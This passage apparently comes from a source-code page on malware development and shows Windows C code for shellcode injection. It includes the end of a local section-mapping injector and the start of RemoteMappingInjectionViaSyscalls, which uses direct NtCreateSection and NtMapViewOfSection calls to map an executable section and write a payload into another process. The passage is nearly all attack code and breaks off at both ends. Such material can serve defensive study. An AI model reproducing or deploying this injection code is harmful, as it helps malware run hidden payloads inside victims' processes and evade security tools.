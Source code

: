 ```
		return FALSE;
	}
	printf("[+] DONE \n");
	printf("\t[+] Thread Created With Id : %d \n", GetThreadId(hThread));

//--------------------------------------------------------------------------

	// Unmapping the local view - only when the payload is done executing
	if ((STATUS = NtUnmapViewOfSection((HANDLE)-1, pAddress)) != 0) {
		printf("[!] NtUnmapViewOfSection Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}

	// Closing the section handle
	if ((STATUS = NtClose(hSection)) != 0) {
		printf("[!] NtClose Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}

	return TRUE;
}

```
### **RemoteMappingInjectionViaSyscalls**


```
BOOL RemoteMappingInjectionViaSyscalls(IN HANDLE hProcess, IN PVOID pPayload, IN SIZE_T sPayloadSize) {

	HANDLE				hSection			= NULL;
	HANDLE				hThread				= NULL;
	PVOID				pLocalAddress		= NULL,
					    pRemoteAddress		= NULL;
	NTSTATUS			STATUS				= NULL;
	SIZE_T				sViewSize			= NULL;
	LARGE_INTEGER		MaximumSize 		= {
			.HighPart = 0,
			.LowPart = sPayloadSize
	};

//--------------------------------------------------------------------------
	// Allocating local map view

	if ((STATUS = NtCreateSection(&hSection, SECTION_ALL_ACCESS, NULL, &MaximumSize, PAGE_EXECUTE_READWRITE, SEC_COMMIT, NULL)) != 0) {
		printf("[!] NtCreateSection Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}

	if ((STATUS = NtMapViewOfSection(hSection, (HANDLE)-1, &pLocalAddress, NULL, NULL, NULL, &sViewSize, ViewShare, NULL, PAGE_READWRITE)) != 0) {
		printf("[!] NtMapViewOfSection [L] Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}

	printf("[+] Local Memory Allocated At : 0x%p Of Size : %d \n", pLocalAddress, sViewSize);

//--------------------------------------------------------------------------

	// Writing the payload
	printf("[#] Press <Enter> To Write The Payload ... ");
	getchar();
```